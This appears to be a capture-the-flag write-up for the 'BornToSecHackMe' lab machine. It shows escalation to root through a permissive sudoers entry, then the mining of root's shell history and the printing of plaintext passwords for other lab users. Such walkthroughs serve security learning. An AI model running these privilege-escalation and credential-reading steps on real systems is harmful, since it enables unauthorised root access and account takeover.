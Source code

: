 # bash_history

we come from writeup4, we can make normal user have full right for the system
```sh
 vi /etc/sudoers

  1 #
  2 # This file MUST be edited with the 'visudo' command as root.
  3 #
  4 # Please consider adding local content in /etc/sudoers.d/ instead of
  5 # directly modifying this file.
  6 #
  7 # See the man page for details on how to write a sudoers file.
  8 #
  9 Defaults        env_reset
 10 Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
 11
 12 # Host alias specification
 13
 14 # User alias specification
 15
 16 # Cmnd alias specification
 17
 18 # User privilege specification
 19 root    ALL=(ALL:ALL) ALL
 20 laurie  ALL=(ALL:ALL) ALL
 21
 22 # Members of the admin group may gain root privileges
 23 %admin ALL=(ALL) ALL
 24
 25 # Allow members of group sudo to execute any command
 26 %sudo   ALL=(ALL:ALL) ALL
 27
 28 # See sudoers(5) for more information on "#include" directives:
 29
 30 #includedir /etc/sudoers.d
```

from line 20, we see that laurie has full right on the machine with sudo
so we ssh into laurie's machine with user laurie and the password 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
`laurie@BornToSecHackMe:~$ sudo su
[sudo] password for laurie:
root@BornToSecHackMe:/home/laurie# ls`

now laurie has the right like root user

```sh
root@BornToSecHackMe:/home/laurie# cd /
root@BornToSecHackMe:/# ls
bin   cdrom  etc   initrd.img  media  opt   rofs  run   selinux  sys  usr  vmlinuz
boot  dev    home  lib         mnt    proc  root  sbin  srv      tmp  var
root@BornToSecHackMe:/# cd root
root@BornToSecHackMe:~# ls -al
total 31
drwx------ 5 root root   150 Oct 15  2015 .
drwxr-xr-x 1 root root   220 Oct 29 09:33 ..
drwx------ 2 root root    29 Oct  8  2015 .aptitude
-rw------- 1 root root 20932 Oct 15  2015 .bash_history
-rw-r--r-- 1 root root  3106 Apr 19  2012 .bashrc
-rw-r--r-- 1 root root   140 Apr 19  2012 .profile
-rw------- 1 root root  1024 Oct  8  2015 .rnd
drwx------ 2 root root    34 Oct  8  2015 .ssh
drwxr-xr-x 2 root root    33 Oct 13  2015 .vim
-rw------- 1 root root  4246 Oct 15  2015 .viminfo
-rw-r--r-- 1 root root    40 Oct 15  2015 README
```

there is .bash_history
let's have a look

```sh
mkdir README
cd README/
ls
touch password
vim password
cd ..
ls
mv README/ LOOKATME
cd LOOKATME/
```

interesting, history shows that creacted a folder called README and after made a file password
I guess there is password inside?
let's have a look?
where is this file?
```sh
find / | grep LOOKATME
/home/LOOKATME
/home/LOOKATME/password
/rofs/home/LOOKATME
/rofs/home/LOOKATME/password
```

so...
```sh
 cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

we have the passward for lmezard

anything else?
```sh
su thor
adduser zaz
646da671ca01bb5d84dbb5fb2238dc8e
cd ../zaz
```

we even have the password of zaz right away.